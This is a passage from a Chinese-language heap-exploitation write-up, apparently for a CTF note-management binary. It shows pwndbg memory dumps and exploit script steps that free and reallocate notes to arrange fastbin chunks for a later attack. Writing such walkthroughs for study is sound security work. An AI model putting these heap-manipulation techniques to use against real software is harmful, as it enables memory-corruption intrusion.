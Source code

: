```
0x1813930:      0x4545454545454545      0x4545454545454545
0x1813940:      0x4545454545454545      0x4545454545454545
0x1813950:      0x4545454545454545      0x4545454545454545
0x1813960:      0x4545454545454545      0x4545454545454545
0x1813970:      0x0000000000000000      0x0000000000020691
0x1813980:      0x0000000000000000      0x0000000000000000
```

**STEP2**

依次释放了0号和1号节点，然后又在0号分配了新节点。

注意这个过程中fastbin链表变化，同时由于后进先出，新分配的0号节点，实际内存分配的是chunk1

```
delete_note(0)                # fastbin: chunk0
delete_note(1)                # fastbin: chunk1->chunk0
add_note('E' * 0x30)          # fastbin: chunk0
raw_input("step2 success")
```

此时内存布局如下：

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x0000000001812010
pwndbg> x/30gx 0x000000001812010
0x1812010:       0x0000000000000100      0x0000000000000004
0x1812020:       0x0000000000000001      0x0000000000000030
0x1812030:       0x0000000001813870      0x0000000000000000
0x1812040:       0x0000000000000000      0x0000000001813870
0x1812050:       0x0000000000000001      0x0000000000000030
0x1812060:       0x00000000018138b0      0x0000000000000001
0x1812070:       0x0000000000000030      0x00000000018138f0
0x1812080:       0x0000000000000001      0x0000000000000041
0x1812090:       0x0000000001813930      0x0000000000000000
0x18120a0:       0x0000000000000000      0x0000000000000000
pwndbg> x/50gx 0x0000000001813830-0x10
0x1813820:       0x0000000000000000      0x0000000000000041
0x1813830:       0x0000000000000000      0x4141414141414141   # chunk0被释放，其fd=NULL
0x1813840:       0x4141414141414141      0x4141414141414141
0x1813850:       0x4141414141414141      0x0041414141414141
0x1813860:       0x0000000000000000      0x0000000000000041
0x1813870:       0x4545454545454545      0x4545454545454545   # chunk1先被释放，后又被分配出去
0x1813880:       0x4545454545454545      0x4545454545454545
0x1813890:       0x4545454545454545      0x0045454545454545
0x18138a0:       0x0000000000000000      0x0000000000000041
0x18138b0:       0x4343434343434343      0x4343434343434343
0x18138c0:       0x4343434343434343      0x4343434343434343
0x18138d0:       0x4343434343434343      0x0043434343434343
0x18138e0:       0x0000000000000000      0x0000000000000041
0x18138f0:       0x4444444444444444      0x4444444444444444
0x1813900:       0x4444444444444444      0x4444444444444444
0x1813910:       0x4444444444444444      0x0044444444444444
0x1813920:       0x0000000000000000      0x0000000000000051
0x1813930:       0x4545454545454545      0x4545454545454545
0x1813940:       0x4545454545454545      0x4545454545454545
0x1813950:       0x4545454545454545      0x4545454545454545
0x1813960:       0x4545454545454545      0x4545454545454545
0x1813970:       0x0000000000000000      0x0000000000020691
0x1813980:       0x0000000000000000      0x0000000000000000
```

